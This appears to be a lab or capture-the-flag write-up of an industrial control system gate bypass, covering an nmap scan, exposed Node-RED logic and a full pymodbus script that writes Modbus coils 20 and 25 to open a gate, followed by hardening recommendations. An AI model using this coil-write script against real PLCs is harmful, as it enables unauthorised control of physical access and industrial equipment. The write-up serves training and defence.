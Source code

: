 # ICS Security Assessment - Gate Bypass Writeup

## Executive Summary

The system was compromised by first conducting a full reconnaissance scan to identify an insecure Node-RED control panel. Analysis of the publicly exposed control logic revealed that the gate's state was dependent on two specific Modbus coils. Using a custom Python script, these coils were successfully manipulated, bypassing the security and opening the gate.

---

## Phase 1: Comprehensive Reconnaissance

The operation began with an exhaustive scan of all TCP ports to build a complete map of the target's attack surface. This step was critical to discovering the ICS infrastructure.

### 1.1 Port Scan Command

```bash
nmap -p- -sV 10.10.223.93
```

### 1.2 Discovered Services

The scan identified the key services required for the attack:

| Port | Service | Details |
|------|---------|---------|
| 80/tcp | HTTP | "Gate Monitor" - A web-based status display |
| 102/tcp | Siemens S7 (iso-tsap) | Direct PLC communication port |
| 502/tcp | Modbus TCP | Standard ICS protocol used for gate control |
| 1880/tcp | HTTP (Node-RED) | Web-based ICS logic editor, the primary entry point |

---

## Phase 2: Analyzing the Control Logic

After discovering the Node-RED editor on port 1880, an analysis of its exposed control logic revealed the exact requirements to operate the gate.

### 2.1 Logical Flaw Discovery

By analyzing the JavaScript code within the function nodes, we discovered the precise logic for the gate controls:

- The **"Motion Detector"** system was controlled by the state of **Modbus Coil 20**
- The **"Badge"** system was controlled by the state of **Modbus Coil 25**

### 2.2 The Vulnerability

The key vulnerability was a combination of factors:

1. **Insecure Read Access**: The Node-RED editor allowed anonymous read access, exposing the entire control logic
2. **Lax PLC Permissions**: The PLC coils were discovered to be writable via the pymodbus library
3. **Counter-intuitive Logic**: The final logic required setting both coils to `FALSE`, not `TRUE`

---

## Phase 3: Exploitation via Python Script

The final step was to use a purpose-built Python script to set both required coils (20 and 25) to `FALSE`. This action satisfied the gate's hidden logic.

### 3.1 Final Exploit Script

This script verifies the initial state, attempts to write `FALSE` to both coils, and re-verifies the final state.

**Command:**
```bash
python3 toggle_coils_v2.py
```

**Script Content:**
```python
#!/usr/bin/env python3
from pymodbus.client import ModbusTcpClient

# --- Configuration ---
PLC_IP = '10.10.223.93'
TCP_PORT = 502
SLAVE_ID = 1

MOTION_COIL = 20
BADGE_COIL = 25
VALUE_TO_WRITE = False # The final, correct value

# --- Main Execution ---
client = ModbusTcpClient(PLC_IP, port=TCP_PORT)
try:
    print(f"[+] Connecting to {PLC_IP}...")
    client.connect()

    # 1. Read the initial state
    print("\n[+] Checking initial coil states...")
    initial_motion_state = client.read_coils(MOTION_COIL, count=1, slave=SLAVE_ID).bits[0]
    initial_badge_state = client.read_coils(BADGE_COIL, count=1, slave=SLAVE_ID).bits[0]
    print(f"    -> Initial State: Coil {MOTION_COIL} = {initial_motion_state}, Coil {BADGE_COIL} = {initial_badge_state}")

    # 2. Attempt to write the new state
    print(f"\n[+] Attempting to write '{VALUE_TO_WRITE}' to both coils...")
    client.write_coil(MOTION_COIL, VALUE_TO_WRITE, slave=SLAVE_ID)
    client.write_coil(BADGE_COIL, VALUE_TO_WRITE, slave=SLAVE_ID)
    print("    -> Write commands sent.")

    # 3. Re-check the coils to verify
    print("\n[+] Re-checking coil states after write attempt...")
    final_motion_state = client.read_coils(MOTION_COIL, count=1, slave=SLAVE_ID).bits[0]
    final_badge_state = client.read_coils(BADGE_COIL, count=1, slave=SLAVE_ID).bits[0]
    print(f"    -> Final State:   Coil {MOTION_COIL} = {final_motion_state}, Coil {BADGE_COIL} = {final_badge_state}")

except Exception as e:
    print(f"\n[!] An error occurred: {e}")
finally:
    client.close()
    print("\n[+] Disconnected.")
```

### 3.2 Mission Success

After running the final script, a check of the "Gate Monitor" on port 80 confirmed the gate was open and the objective was complete.

---

## Summary

This assessment demonstrated critical vulnerabilities in the ICS infrastructure:
- **Exposed control logic** through unsecured Node-RED interface
- **Writable PLC coils** without proper access controls
- **Insufficient network segmentation** allowing direct access to industrial protocols

**Recommendations:**
- Implement proper authentication for Node-RED editor
- Restrict write access to critical PLC coils
- Segment ICS networks from general network access
- Monitor and log all Modbus communications